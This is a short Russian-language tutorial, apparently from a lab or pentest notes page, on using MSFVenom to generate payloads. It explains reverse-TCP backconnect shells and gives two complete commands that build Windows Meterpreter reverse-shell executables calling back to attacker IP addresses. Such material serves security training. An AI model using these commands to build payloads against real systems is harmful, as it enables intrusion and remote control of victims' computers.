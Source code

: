 #### Что такое MSFVenom
MSFVenom — бесплатный инструмент для создания полезной нагрузки (вредоносного файла). Это, так сказать, двоюродный брат Metasploit. С его помощью вы можете создавать различные полезные нагрузки, шелл-код и обратный шелл.
* msfvenom -h => отобразить справку
#### Как использовать MSFVenom:
Reverse TCP (обратное подключение, обратный шелл, пейлоад), — схема взаимодействия с целевым компьютером. Говоря простым языком. Мы создаем вредоносный файл (полезную нагрузку), после запуска которого целевой компьютер будет пытаться подключиться к нашему компьютеру. Это называется «бэкконнект» или в нашем случае обратный шелл, потому что «бэкконнект» — это понятие растяжимое.
Чтобы узнать, какие полезные нагрузки доступны введите команду:
* msfvenom -l payloads
#### Следующая команда создаст вредоносный исполняемый файл (обратный шелл), после запуска которого откроется сеанс Meterpreter.
* LHOST — IP-адрес вашего компьютера (атакующего).
* LPORT — порт вашего компьютера, который назначен серверу или программе.
* P — сокращение от «payload», полезная нагрузка для выбранной платформы.
* F — параметр, который задает тип файла, например, exe для Windows.
* msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.13 LPORT=4444 -f exe -a x64 -o /home/infosecaddicts/infoecaddicts.exe
* msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.56.102(наш ip) lport=25(smtp порт, тк лаба почтовая и он открыт))) -f exe > /root/example.exe
###### Полезная нагрузка готова: /root/example.exe

